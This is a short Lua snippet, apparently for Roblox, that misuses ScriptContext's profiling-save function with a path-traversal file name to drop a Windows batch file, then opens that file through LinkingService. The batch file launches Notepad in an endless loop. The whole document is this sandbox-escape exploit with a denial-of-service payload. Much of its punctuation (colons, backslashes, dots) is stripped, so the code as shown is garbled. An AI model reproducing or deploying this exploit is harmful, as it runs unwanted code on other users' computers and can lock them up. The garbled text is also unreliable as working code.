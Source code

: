 
local LinkingService = gameGetService(LinkingService)
local ScriptContext = gameGetService(ScriptContext)

local scriptContent = [[@ECHO off
top
START %SystemRoot%system32notepad.exe
GOTO top
]]

local payload = ScriptContextSaveScriptProfilingData(scriptContent, ........test.bat)
LinkingServiceOpenUrl(payload)
